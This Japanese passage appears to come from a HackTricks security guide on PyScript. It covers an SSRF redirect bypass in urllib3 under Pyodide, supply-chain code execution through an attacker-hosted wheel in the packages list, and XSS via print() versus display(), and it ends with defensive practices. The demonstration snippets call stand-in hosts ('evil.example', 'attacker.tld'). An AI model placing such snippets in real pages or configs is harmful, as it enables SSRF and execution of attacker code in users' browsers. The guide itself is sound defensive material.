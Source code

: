 ### 制御されていないリダイレクトによるサーバーサイドリクエストフォージェリ (CVE-2025-50182)

`urllib3 < 2.5.0` は、PyScriptに付属する**Pyodideランタイム内**で実行されるときに、`redirect`および`retries`パラメータを無視します。攻撃者がターゲットURLに影響を与えることができる場合、開発者が明示的に無効にした場合でも、Pythonコードがクロスドメインリダイレクトに従うように強制することができ、実質的にanti-SSRFロジックを回避します。
```html
<script type="py">
import urllib3
http = urllib3.PoolManager(retries=False, redirect=False)  # supposed to block redirects
r = http.request("GET", "https://evil.example/302")      # will STILL follow the 302
print(r.status, r.url)
</script>
```
`urllib3 2.5.0` でパッチが適用されました – PyScript イメージ内のパッケージをアップグレードするか、`packages = ["urllib3>=2.5.0"]` で安全なバージョンを固定してください。詳細については公式の CVE エントリを参照してください。

### 任意のパッケージの読み込みとサプライチェーン攻撃

PyScript は `packages` リストに任意の URL を許可するため、設定を変更または注入できる悪意のあるアクターは、被害者のブラウザで **完全に任意の Python** を実行することができます：
```html
<py-config>
packages = ["https://attacker.tld/payload-0.0.1-py3-none-any.whl"]
</py-config>
<script type="py">
import payload  # executes attacker-controlled code during installation
</script>
```
*純粋なPythonホイールのみが必要です – WebAssemblyのコンパイルステップは必要ありません。* 設定がユーザー制御されていないことを確認し、HTTPSおよびSRIハッシュを使用して自分のドメインに信頼できるホイールをホストしてください。

### 出力のサニタイズの変更 (2023+)

* `print()` は依然として生のHTMLを注入し、そのためXSSに対して脆弱です（上記の例）。
* 新しい `display()` ヘルパーは **デフォルトでHTMLをエスケープします** – 生のマークアップは `pyscript.HTML()` でラップする必要があります。
```python
from pyscript import display, HTML

display("<b>escaped</b>")          # renders literally

display(HTML("<b>not-escaped</b>")) # executes as HTML -> potential XSS if untrusted
```
この動作は2023年に導入され、公式のBuilt-insガイドに文書化されています。信頼できない入力には`display()`を使用し、`print()`を直接呼び出すことは避けてください。

---

## 防御的ベストプラクティス

* **パッケージを最新の状態に保つ** – `urllib3 >= 2.5.0`にアップグレードし、サイトに付属するホイールを定期的に再構築します。
* **パッケージソースを制限する** – PyPI名または同一オリジンのURLのみを参照し、理想的にはサブリソース整合性（SRI）で保護します。
* **コンテンツセキュリティポリシーを強化する** – インラインJavaScript（`script-src 'self' 'sha256-…'`）を禁止し、注入された`<script>`ブロックが実行されないようにします。
* **ユーザー提供の`<py-script>` / `<script type="py">`タグを禁止する** – HTMLを他のユーザーにエコーする前にサーバーでサニタイズします。
* **ワーカーを隔離する** – ワーカーからDOMへの同期アクセスが必要ない場合は、`sync_main_only`フラグを有効にして`SharedArrayBuffer`ヘッダーの要件を回避します。

## 参考文献

* [NVD – CVE-2025-50182](https://nvd.nist.gov/vuln/detail/CVE-2025-50182)
* [PyScript Built-ins documentation – `display` & `HTML`](https://docs.pyscript.net/2024.6.1/user-guide/builtins/)

{{#include ../../banners/hacktricks-training.md}}
